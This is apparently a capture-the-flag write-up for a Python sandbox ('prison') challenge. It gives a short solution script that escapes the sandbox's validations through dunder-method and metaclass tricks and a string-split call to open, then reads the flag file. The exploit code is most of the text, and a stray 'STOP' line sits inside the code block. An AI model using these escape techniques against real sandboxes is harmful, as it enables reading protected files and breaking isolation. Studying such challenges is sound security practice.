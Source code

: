 # Super secure prison 2

Look, I know I messed up with the first version of my software. 
I think that this one will be just fine. 
I implemented more validations and it should be enough to keep the bad guys away...right?

> Can you read the flag?

## Solution

```
class Solver(BaseException):
    __contains__ = print
class X(metaclass=Solver): None
try:
    raise Solver
except Solver as solution:
    Solver.__getitem__ = __builtins__.__dict__['o''pen']
    op_file = solution['flag']
    Solver.__getitem__ = op_file.read
    op_file_content = solution[None]
    op_file_content in X
STOP
```